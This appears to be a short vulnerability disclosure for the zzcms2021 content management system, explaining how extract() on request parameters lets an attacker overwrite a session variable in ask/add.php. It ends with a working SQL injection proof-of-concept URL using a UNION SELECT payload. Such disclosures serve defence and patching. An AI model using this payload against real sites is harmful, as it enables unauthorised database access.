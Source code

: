 + version: zzcms2021
+ source: http://www.zzcms.net/about/6.htm
+ issue: sql injection

# Position
in `ask/add.php` line 91

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217222912.png)

`$_SESSION["bigclassid"]` is an injection point,and `$row["classid"]` is output to the web page 

in `inc/stopsqlin.php`

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217224927.png)
function `zc_check` filters `$_GET` and `$_POST`,but it won't affect our injection

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217223618.png)
then executes `@extract($_POST);@extract($_GET);`,so we can use the `extract` function to override `$_SESSION["bigclassid"]`

# Poc
`/ask/add.php?_SESSION[bigclassid]=0 union select user(),2,3,4,5,6,7,8,9,10,11--+`

![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217224442.png)